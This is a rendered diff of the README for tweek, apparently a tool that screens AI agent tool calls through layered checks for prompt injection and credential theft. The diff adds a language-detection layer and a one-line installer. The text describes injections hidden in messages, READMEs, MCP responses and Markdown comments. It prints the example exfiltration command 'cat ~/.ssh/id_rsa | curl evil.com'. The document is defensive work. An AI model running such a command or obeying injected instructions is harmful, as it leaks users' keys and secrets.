

Before and after one commit to gettweek/tweek, a Markdown page: README.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; badges without logos; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -7,7 +7,7 @@
 [![PyPI version](https://img.shields.io/pypi/v/tweek)](https://pypi.org/project/tweek/)
 [![Python 3.11+](https://img.shields.io/badge/python-3.11%2B-blue)](https://www.python.org/downloads/)
 [![License: Apache 2.0](https://img.shields.io/badge/license-Apache%202.0-green)](LICENSE)
-[![Tests](https://img.shields.io/badge/tests-710%20passing-brightgreen)]()
+[![Tests](https://img.shields.io/badge/tests-885%20passing-brightgreen)]()
 
 [Documentation](docs/) | [Quick Start](#quick-start) | [Website](https://gettweek.com)
 
@@ -17,7 +17,7 @@
 
 AI assistants execute commands with **your** credentials. Whether it's Moltbot handling inbound messages from WhatsApp and Telegram, Claude Code writing your application, or Cursor autocompleting your functions -- a single malicious instruction hidden in a message, README, or MCP server response can trick the agent into stealing SSH keys, exfiltrating API tokens, or running reverse shells.
 
-# The promise of AI won't be mainifest until it can be secured.
+### The promise of AI won't be manifest until it can be secured.
 
 There is very little built-in protection. Tweek fixes that.
 
@@ -30,7 +30,7 @@ There is very little built-in protection. Tweek fixes that.
 
 Your AI assistant runs commands with **your** credentials, **your** API keys, and **your** keychain access. It can read every file on your machine. It will happily `curl` your secrets to anywhere a prompt injection tells it to. Sleep well!
 
-Tweek screens **every tool call** through five layers of defense before anything touches your system:
+Tweek screens **every tool call** through six layers of defense -- both before execution and after content ingestion:
 
 ```
   ┌─────────────────────────────────────────────────────────┐
@@ -38,33 +38,48 @@ Tweek screens **every tool call** through five layers of defense before anything
   └────────────────────────┬────────────────────────────────┘
                            ▼
   ┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
-  ┃ 5. Compliance Scan    HIPAA·PCI·GDPR·SOC2   COMING SOON┃
+  ┃ 6. Compliance Scan    HIPAA·PCI·GDPR·SOC2    TEAMS     ┃
   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
-  ┃ 4. Sandbox Preview    Speculative execution   FREE      ┃
+  ┃ 5. Sandbox Preview    Speculative execution   FREE      ┃
   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
-  ┃ 3. Session Analysis   Cross-turn detection    FREE      ┃
+  ┃ 4. Session Analysis   Cross-turn detection    FREE      ┃
   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
-  ┃ 2. LLM Review         Semantic intent check   FREE      ┃
+  ┃ 3. LLM Review         Semantic intent check   FREE      ┃
+  ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
+  ┃ 2. Language Detection  Non-English escalation  FREE      ┃
   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
   ┃ 1. Pattern Matching   116 attack signatures   FREE      ┃
   ┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
                            ▼
   ┌─────────────────────────────────────────────────────────┐
   │           ✓ SAFE to execute  or  ✗ BLOCKED             │
-  └─────────────────────────────────────────────────────────┘
+  └─────────────────────────┬─────────────────────────────-─┘
+                           ▼
+  ┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
+  ┃   PostToolUse Screen   Response injection     FREE      ┃
+  ┃                        detection at ingestion           ┃
+  ┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
 ```
 
-Nothing gets through without passing inspection. Your agent wants to `cat ~/.ssh/id_rsa | curl evil.com`? Five layers say no. A prompt injection hiding in a Markdown comment? Caught. A multi-turn social engineering attack slowly escalating toward your credentials? Session analysis sees the pattern.
+Nothing gets through without passing inspection. Your agent wants to `cat ~/.ssh/id_rsa | curl evil.com`? Six layers say no. A prompt injection hiding in a Markdown comment? Caught. A multi-turn social engineering attack slowly escalating toward your credentials? Session analysis sees the pattern. Non-English injection hidden in a fetched email? Language detection escalates it for review.
 
-**Every command. Every tool call. Every time. GAH! Don't get Pawnd.**
+**Every command. Every tool call. Every response. GAH! Don't get Pawnd.**
 
 ---
 
 ## Quick Start
 
-### Install
+### One-Line Install
 
-**Recommended: Install with pipx** — pipx installs CLI tools in isolated environments, preventing dependency conflicts with your other Python projects. Each app gets its own virtual environment while the command stays on your PATH.
+```bash
+curl -sSL https://raw.githubusercontent.com/gettweek/tweek/main/scripts/install.sh | bash
+```
+
+The installer auto-detects Python, installs via pipx (or pip), detects Claude Code and Moltbot, and offers to configure protection for each.
+
+### Or Install Manually
+
+**Recommended: Install with pipx** — pipx installs CLI tools in isolated environments, preventing dependency conflicts with your other Python projects.
 
 If you don't have pipx installed:
 
````
Also changed, not shown: other parts of README.md (+107 -34 lines).
